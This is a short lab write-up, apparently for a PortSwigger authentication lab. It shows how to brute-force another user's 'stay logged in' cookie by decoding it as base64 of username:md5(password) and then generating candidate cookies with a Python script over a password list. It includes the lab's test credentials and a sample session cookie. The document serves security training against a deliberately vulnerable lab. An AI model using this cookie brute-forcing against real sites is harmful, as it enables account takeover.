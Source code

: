 

**Goal** : brute-force Carlos's cookie to gain access to his "My account" page.

- go to the login page ,submit your valid credentials `wiener:peter`,intercept the request and send it to the repeater

- you will notice that when you enter : 

  - wrong credentials , it gives `Invalid username or password.`

  - multiple wrong credentials , it gives `You have made too many incorrect login attempts. Please try again in 1 minute(s).`

  - valid credentials , it redirects to ` /my-account` and generate cookie 

```bash
Cookie:session=isdKJGMsLZYPCEPtocVeA1; stayloggedin=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
```

<img src="/assets/img/portswigger/auth/auth8_1.png" alt="auth" style="zoom:80%;" />

- notice that the value of `stayloggedin` is in base64 
- decode it and you will get `wiener:51dc30ddc473d43a6011e9ebba6ca770 ` which is the `username : md5(password)`
- to brute-force the cookie of `carlos` you need list of possible [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) in md5 hash then encode them into base64 
  you can use this python script to generate all possible `stayloggedin` values

 <br /><br />

```python
import hashlib
import base64
f= open('password.txt', 'r')
lines = f.readlines()
for line in lines:
    result = hashlib.md5(line.rstrip('\n').encode())
    stringToBase64 = "carlos:"+result.hexdigest()
    stringToBase64_bytes = stringToBase64.encode("ascii")
    base64_bytes = base64.b64encode(stringToBase64_bytes)
    base64_string = base64_bytes.decode("ascii")
    print(f"{base64_string}")
f.close()
```
